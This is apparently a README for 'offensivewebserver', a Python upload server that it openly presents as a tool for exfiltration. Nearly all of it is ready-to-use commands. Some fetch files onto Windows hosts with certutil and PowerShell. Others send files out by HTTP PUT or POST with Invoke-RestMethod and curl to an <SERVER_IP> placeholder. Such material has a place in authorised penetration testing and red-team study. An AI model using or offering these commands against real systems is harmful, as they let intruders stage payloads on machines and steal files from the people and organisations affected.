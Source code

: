 # offensivewebserver
A simple Python web server that is case-insensitive and allows file uploads via POST and PUT methods to facilitate exfiltration.

# USE
run the script in your desired location with optional `--port` parameter. The default port is 443.

`ofensivewebserver [--port <PORT>]`

# DOWNLOAD METHODS
## Windows

```powershell
Invoke-WebRequest -Uri "http://<SERVER_IP>:<PORT>/<FILENAME>" -OutFile "<FILENAME_AT_DESTINATION>"
Invoke-RestMethod -Uri "http://<SERVER_IP>:<PORT>/<FILENAME>" -OutFile "<FILENAME_AT_DESTINATION>"
```

```
certutil -urlcache -split -f http://<SERVER_IP>:<PORT>/<FILENAME> <FILENAME_AT_DESTINATION>
```

# UPLOAD METHODS (EXFILTRATION)

## Windows

**BY METHOD PUT**
```powershell
Invoke-RestMethod -Uri http://<SERVER_IP>:<PORT>/<FILENAME_AT_DESTINATION> -Method Put -InFile "<FILE_TO_UPLOAD>"
```

**BY METHOD POST**
```powershell
 `Invoke-RestMethod -Uri http://<SERVER_IP>:<PORT> -Method Post -Headers @{ "File-Name" = "<FILENAME_AT_DESTINATION>" } -InFile "<FILE_TO_UPLOAD>"
```

## Linux

**BY METHOD PUT**
```bash
curl -T <FILE_TO_UPLOAD> http://<SERVER_IP>:<PORT>/<FILENAME_AT_DESTINATION>
```

**BY METHOD POST**
```bash
curl -X POST -H "File-Name: <FILENAME_AT_DESTINATION>" --data-binary @<FILE_TO_UPLOAD> http://<SERVER_IP>:<PORT>
```
